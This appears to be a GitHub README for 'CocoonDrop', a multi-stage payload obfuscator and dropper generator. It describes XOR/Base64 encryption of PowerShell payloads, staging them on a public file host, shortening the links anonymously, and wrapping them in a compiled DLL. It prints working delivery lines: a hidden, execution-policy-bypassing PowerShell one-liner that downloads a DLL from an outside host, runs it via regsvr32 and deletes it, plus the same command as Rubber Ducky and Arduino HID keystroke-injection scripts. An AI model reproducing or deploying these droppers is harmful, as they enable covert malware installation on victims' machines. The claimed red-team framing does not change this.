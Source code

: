 # 🐛 CocoonDrop

> _Wrap your payload in a shell of silence._

**CocoonDrop** is a multi-stage payload obfuscator and dropper generator tailored for CTF creators, red teamers, and anyone needing to make payload delivery **silent**, **modular**, and **weirdly beautiful**.

It encrypts PowerShell payloads using XOR + Base64, stages them via Catbox, optionally shortens URLs using **goolnk over RapidAPI (no key needed)**, wraps them in a one-liner, compiles that into a DLL, and delivers the whole thing through your choice of:
- a raw PowerShell command,
- a Rubber Ducky script,
- or a Beetle USB injection sketch.

---

## ⚙️ Features

- ✅ XOR + Base64 obfuscation with custom key or auto-generation
- ✅ Catbox upload of encrypted payload and staging script
- ✅ **Anonymous URL shortening** using RapidAPI + goolnk (no key required)
- ✅ One-liner PowerShell wrapper that pulls & decrypts live
- ✅ Auto-compiled GCC DLL embedding the obfuscated payload
- ✅ Final delivery via:
  - 🖥️ PowerShell execution
  - 🐥 Rubber Ducky HID script
  - 🪲 Beetle USB Arduino HID script
- ✅ Full PyQt5 GUI with dark mode
- ✅ Transparent logging for each phase

---

## 📦 Installation

### 🔧 Requirements

- Python 3.7+
- GCC (`gcc`, `mingw-w64`, or `x86_64-w64-mingw32-gcc`)
- Internet connection (for Catbox & goolnk)

### 🐍 Python Dependencies

```bash
pip install pyqt5 catbox-uploader requests
```

---

## 🧪 Use Cases

| Use Case          | Description                                       |
|-------------------|---------------------------------------------------|
| 🔐 Red Team       | Payload dropper for low-visibility delivery       |
| 🧠 CTF Creation    | Make challenge stages that feel real              |
| 🔌 HID Injection   | Combine with Ducky or Beetle USB for physical access |
| 🔍 Adversarial Sim| Simulate malware delivery without the malware     |
| 🛡️ EDR Testing     | Safe, weird payload behaviors for defense teams   |

---

## 🧰 Workflow Overview

```
[PowerShell Script]
        ↓
[XOR + Base64 Encode]
        ↓
[Upload to Catbox]
        ↓
[Generate Stager → Upload to Catbox]
        ↓
[Shorten Link via goolnk (no key)]
        ↓
[Insert into PowerShell One-Liner]
        ↓
[Encode to UTF-16LE + Base64]
        ↓
[Insert into DLL C Code Template]
        ↓
[Compile DLL → Upload to Catbox]
        ↓
[Final PS Dropper + Ducky/Beetle Scripts (optional)]
```

---

## 🚀 Usage

```bash
git clone https://github.com/YOUR-USERNAME/cocoondrop.git
cd cocoondrop
python cocoondrop.py
```

---

## 🖥️ Output Examples

### 🪄 Final PowerShell One-Liner

```powershell
powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"
```

### 🐥 Rubber Ducky Script

```ducky
DELAY 1000
GUI r
DELAY 200
STRING powershell
ENTER
DELAY 700
STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://...dll' ..."
ENTER
```

### 🪲 Beetle USB Sketch (Arduino)

```cpp
typeString("powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ");
typeString(""(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"");
```

---

## ✍️ GUI Walkthrough

1. 💬 Paste your PowerShell payload  
2. 🔑 Choose or generate a key  
3. 🧪 Encrypt & upload payload  
4. 📤 Auto-generate and upload staging script  
5. 🔗 CocoonDrop silently shortens it via goolnk RapidAPI  
6. 🧙 Generate DLL from the embedded payload  
7. 📎 Get the final execution script  
8. 🎯 Choose HID output (Ducky / Beetle) — optional  

---

## 🔐 Legal & Ethics Notice

CocoonDrop is strictly for:

- 🔐 Ethical red teaming  
- 🧠 CTF creation  
- 🧪 Adversarial simulations  
- 🛡️ Blue team EDR testing  

**You are responsible for your actions.**  
Don't be evil. Don't be stupid. Don’t get caught.

---

## 🧬 Why "CocoonDrop"?

Like a cocoon, the payload is hidden, dormant, ready to execute only when triggered.  
It doesn’t crawl. It waits.  
It doesn’t fight. It deploys.

---

## 👨‍🔧 Credits

- **beigeworm** for the inspo  
- **me** for reverse engineering his brilliance and turning it into an obfuscator  

---

## 🛠️ TODO

- Use more encryption than XOR  
- Add polymorphic encryption with variable layers  

---

## 🪓 License

MIT. Just don’t use it for malware and don’t sue me.

